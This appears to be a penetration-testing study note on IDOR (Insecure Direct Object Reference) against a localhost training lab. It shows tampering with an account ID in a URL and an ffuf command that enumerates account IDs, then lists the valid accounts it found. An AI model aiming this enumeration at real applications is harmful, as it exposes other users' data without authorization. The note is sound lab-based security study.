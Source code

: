 # Web App - IDOR

> - [PayloadsAllTheThings - Insecure Direct Object References](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Direct%20Object%20References)

➡️ **Insecure Direct Object Reference** (**IDOR**) occurs when an application exposes direct access to objects (e.g. database records, files, etc) without proper authorization, allowing attackers to manipulate or access unauthorized data.

---

##  IDOR - Insecure Direct Object Reference

- Try to change the `account` object ID in the URL to something else
  - `http://localhost/labs/e0x02.php?account=1009`
  - `http://localhost/labs/e0x02.php?account=1010`

![](.gitbook/assets/2025-02-28_13-35-42_930.png)

- Enumerate all the accounts within the application

```bash
cd $HOME/tcm/peh/webapp

# Create IDs file from 1 to 1000
python3 -c 'for i in range(1,2001): print(i)' > num.txt

ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w num.txt -fs 849
```

```bash
# Valid accounts
1000
1001
1002
1004
1006
1005
1009
1007
1010
1008
1016
1012
1014
1019
1011
1017
1015
1013
1018
1003
```

---

